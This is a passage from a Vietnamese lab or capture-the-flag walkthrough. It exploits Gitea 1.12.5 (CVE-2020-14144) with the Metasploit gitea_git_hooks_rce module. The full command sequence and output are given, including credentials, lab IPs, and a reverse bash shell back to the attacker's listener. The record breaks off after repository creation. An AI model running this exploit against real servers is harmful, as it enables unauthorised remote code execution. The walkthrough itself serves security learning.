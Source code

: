 Gitea v1.12.5 có chứa 1 lỗ hổng dẫn tới RCE, có mã [CVE-2020-14144](https://www.cvedetails.com/cve/CVE-2020-14144/){:target="\_blank"}. Nếu khai thác lỗi này thành công, ta có thể lấy được shell của thằng frank chạy trong hệ thống.

```shell
msf6 > search gitea

Matching Modules
================

   #  Name                                    Disclosure Date  Rank       Check  Description
   -  ----                                    ---------------  ----       -----  -----------
   0  exploit/multi/http/gitea_git_fetch_rce  2022-05-16       excellent  Yes    Gitea Git Fetch Remote Code Execution
   1  exploit/multi/http/gitea_git_hooks_rce  2020-10-07       excellent  Yes    Gitea Git Hooks Remote Code Execution
   2  exploit/multi/http/gogs_git_hooks_rce   2020-10-07       excellent  Yes    Gogs Git Hooks Remote Code Execution


Interact with a module by name or index. For example info 2, use 2 or use exploit/multi/http/gogs_git_hooks_rce
```

Search trong metasploit, tìm thấy 2 module khai thác lỗi RCE của gitea. Ở đây mình dùng module `exploit/multi/http/gitea_git_hooks_rce`

```shell
msf6 > use exploit/multi/http/gitea_git_hooks_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/gitea_git_hooks_rce) > show TARGETS

Exploit TARGETS:
=================

    Id  Name
    --  ----
    0   Unix Command
=>  1   Linux Dropper
    2   Windows Command
    3   Windows Dropper


msf6 exploit(multi/http/gitea_git_hooks_rce) > set TARGET 0
TARGET => 0
msf6 exploit(multi/http/gitea_git_hooks_rce) > set USERNAME frank
USERNAME => frank
msf6 exploit(multi/http/gitea_git_hooks_rce) > set PASSWORD password
PASSWORD => password
msf6 exploit(multi/http/gitea_git_hooks_rce) > set RPORT 8585
RPORT => 8585
msf6 exploit(multi/http/gitea_git_hooks_rce) > set RHOST 10.0.2.10
RHOST => 10.0.2.10
msf6 exploit(multi/http/gitea_git_hooks_rce) > set LHOST 10.0.2.15
LHOST => 10.0.2.15
msf6 exploit(multi/http/gitea_git_hooks_rce) > exploit

[*] Started reverse TCP handler on 10.0.2.15:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Gitea version is 1.12.5
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Authenticate with "frank/password"
[+] Logged in
[*] Create repository "Sub-Ex_Bytecard"
[+] Repository created
```